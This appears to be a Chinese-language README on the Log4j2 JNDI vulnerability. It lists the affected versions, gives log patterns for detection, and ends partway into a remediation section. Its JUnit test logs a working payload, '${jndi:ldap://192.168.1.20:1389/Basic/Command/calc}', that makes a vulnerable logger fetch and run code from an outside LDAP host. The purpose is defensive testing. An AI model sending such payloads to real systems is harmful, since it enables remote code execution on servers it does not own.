    - **360CERT**：[发布Log4j2恶意荷载批量检测调查工具](https://my.oschina.net/u/4600927/blog/5371617)
   - **腾讯容器安全**：[发布开源 Log4j2 漏洞缓解工具](https://www.oschina.net/news/173667)



## 2.初始漏洞说明


-  影响范围
Apache Log4j 2.x <= 2.15.0-rc1
受影响的应用及组件（包括但不限于）如下： Apache Solr、Apache Flink、Apache Druid、Apache Struts2、srping-boot-strater-log4j2等。 
-  攻击检测
可以通过检查日志中是否存在“jndi:ldap://”、“jndi:rmi”等字符来发现可能的攻击行为。
检查日志中是否存在相关堆栈报错，堆栈里是否有JndiLookup、ldapURLContext、getObjectFactoryFromReference等与 jndi 调用相关的堆栈信息。 



## 3.检测代码


- 示例代码


```
public class Log4jErrorTest {

    private static final Logger logger = LogManager.getLogger(Log4jErrorTest.class);
    @Test
    void testLog4jError() throws InterruptedException {
        // -Dlog4j2.formatMsgNoLookups=true jvm参数修复
        final boolean[] sign = {false};
        Thread thread = new Thread(new Runnable() {
            @Override
            public void run() {
                logger.error("${jndi:ldap://192.168.1.20:1389/Basic/Command/calc}");
                sign[0] = true;
            }
        });
        thread.start();
        try {
            Thread.sleep(500);
        } catch (Exception e){
            Assertions.assertEquals(true, sign[0]);
        }

        Assertions.assertEquals(true, sign[0]);
    }
}

```


## 4.修正策略
